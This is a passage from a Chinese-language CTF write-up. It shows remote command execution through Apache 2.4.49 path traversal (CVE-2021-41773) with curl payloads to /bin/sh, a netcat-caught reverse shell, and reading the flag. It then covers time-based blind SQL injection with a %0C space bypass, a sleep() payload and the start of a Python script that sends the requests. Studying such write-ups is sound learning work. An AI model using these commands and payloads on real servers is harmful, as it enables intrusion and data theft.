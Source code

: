 ```bash
curl --data "echo;ls /tmp" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

在返回结果中已经存在 `shell.sh`， 故在主控机上 `nc -lvp 54188`，然后执行：

```bash
curl --data "echo;bash /tmp/shell.sh" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

拿到 shell.

执行 `ls /` 找到 flag 并 `cat` 得到 flag.

```shell
daemon@out:/$ cat ffffllllaaagggg_cc084c485d
flag{c5b66e3b-404d-49eb-a970-0c0c7fa0f2db}
```

事实上将 `--data` 设定为 `echo;ls /` 进行 RCE 即可获得到 flag 的位置和文件名，然后使用路径穿越或 RCE 均可读到 flag 的内容。

#### References

- <https://blog.csdn.net/qq_60905276/article/details/125163219>
- <https://httpd.apache.org/security/vulnerabilities_24.html>
- <https://github.com/Threekiii/Vulhub-Reproduce/blob/master/Apache%20HTTP%20Server%202.4.49%20路径穿越漏洞%20CVE-2021-41773.md>

### Find round

基础注入测试一下，发现其过滤掉了空格和井号。其中空格可以使用 `%0C` 绕过。

注入一些 SQL 发现其没有回显。

解决这种情况有两种方式，一种是 DNSlog，另一种是 sleep 盲注。但是经过测试本题无法使用 SQL 语句中的 `load_file`，故无法使用 DNSlog.

根据 IF 语句的语法 `if(表达式, 若真, 若假)` 使用 payload

```sql
if(ascii(substr(database(),1,1))>0,sleep(5),1)
```

发现网页加载时间明显变慢。利用这一特性，写 Python 脚本，定义一些工具函数：

```python
# Copyright (c) 2022 Cnily03
from time import sleep
import requests

# 字母表
ALPHABET = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!?-_ @#/\\"
# 靶机地址
URL = "http://a4987151-d67a-4396-b3d4-10fa0937cba5.node4.buuoj.cn:81/comments.php"
# 请求发送间隔
SLEEP_INTERVAL = 0.001
# 几秒内未收到响应视为 if 判真
REQUEST_TTL = 0.8


def test_pass(payload):
    """测试 payload 是否有效
    """
    url = URL
    data = {"name": payload}
    try:
        res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
    except:
        return True
    return False

```